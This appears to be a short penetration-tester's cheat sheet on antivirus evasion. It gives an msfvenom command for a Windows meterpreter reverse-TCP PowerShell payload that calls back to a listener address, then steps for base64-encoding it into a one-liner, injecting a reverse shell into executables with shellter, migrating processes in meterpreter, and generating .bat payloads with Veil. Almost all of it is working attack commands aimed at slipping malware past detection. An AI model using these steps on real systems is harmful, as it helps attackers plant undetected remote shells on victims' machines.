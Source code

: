 # Anti Virus Evasion

Generate a malicious payload for testing with AV:
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.0.10 LPORT=443 -f powershell`

Add the output to  `in_memory_injection.ps1`.

Create a listener in `msfconsole`.

Encode script in base64 and decode as a one liner. `powershell -E XXXX`:  
https://github.com/darkoperator/powershell_scripts/blob/master/ps_encoder.py

Install shellter and wine32
```bash
sudo apt install shellter
sudo dpkg --add-architecture i386 && sudo apt-get update &&
sudo apt-get install wine32
```

Run shellter on the executable, configure with the correct address and port for the IP reverse shell.

In the meterpreter exploit/multi/handler you may need to use the following line to migrate to another process:
`set AutoRunScript post/windows/manage/migrate`

Use Veil to generate .bat files:
https://github.com/Veil-Framework/Veil
